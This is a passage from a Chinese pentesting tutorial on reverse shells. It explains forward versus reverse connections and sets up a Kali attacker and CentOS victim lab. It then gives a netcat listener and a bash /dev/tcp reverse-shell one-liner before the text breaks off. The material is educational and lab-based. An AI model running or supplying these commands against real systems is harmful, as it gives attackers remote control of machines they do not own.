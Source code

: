 ```yaml
---
title: "渗透测试中弹shell的多种方式及bypass"
date: 2019-07-19T09:24:46+08:00
lastmod: 2019-07-19T09:24:46+08:00
draft: false
tags: ['shell']
categories: ['渗透测试']
comment: true
---
```


弹shell的多种方式总结。



> 文章首发先知 https://xz.aliyun.com/t/5768

在我们渗透测试的过程中，最常用的就是基于tcp/udp协议反弹一个shell，也就是反向连接。

我们先来讲一下什么是正向连接和反向连接。

- 正向连接：我们本机去连接目标机器，比如ssh和mstsc
- 反向连接：目标机器去连接我们本机

那么为什么反向连接会比较常用呢

1. 目标机器处在局域网内，我们正向连不上他
2. 目标机器是动态ip
3. 目标机器存在防火墙

然后说一下我的实验环境

虚拟机采用nat模式

攻击机：Kali Linux ：172.16.1.130

受害机：Centos 7 ：172.16.1.134

# 常见姿势

## bash

bash也是最常见的一种方式

Kali监听

```bash
nc -lvvp 4444
```

centos运行

```bash
bash -i >& /dev/tcp/172.16.1.130/4444 0>&1
```

当然你还可以这样
